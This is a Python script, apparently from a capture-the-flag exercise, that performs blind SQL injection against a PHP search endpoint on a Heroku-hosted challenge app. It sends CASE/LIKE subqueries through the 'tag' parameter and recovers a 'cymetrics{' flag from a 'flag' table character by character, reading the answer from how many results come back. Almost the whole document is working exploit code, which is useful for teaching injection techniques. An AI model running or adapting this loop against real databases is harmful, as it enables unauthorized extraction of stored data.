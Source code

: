 ``` python
# exploit-search-3x.py
import requests
import datetime
import json
import urllib.parse
import time

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
result = 'cymetrics{'

start = time.time()
while True:
  found = False
  for i in range(0, len(char_set), 3):
    chars = char_set[i:i+3]
    while len(chars) < 3:
      chars += 'a'
    payload = f'''
    (select case
      when (content like "{result+chars[0]}%") then 1  
      when (content like "{result+chars[1]}%") then 2  
      when (content like "{result+chars[2]}%") then 5
      else 10
     end from flag)
    '''
    print("trying " + str(chars))
    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if response.ok:
      data = json.loads(response.text)
      if len(data) == 2:
        result+=chars[0]
        found = True
      elif len(data) == 0:
        continue
      else:
        found = True
        if data[0]["name"] == "home1":
          result+=chars[1]
        else:
          result+=chars[2]

    else:
      print('error')
      print(response.text)
      break

    if found:
      print_success("found: " + result)
      break

  if not found:
    print("end")
    print(response.text)
    break

```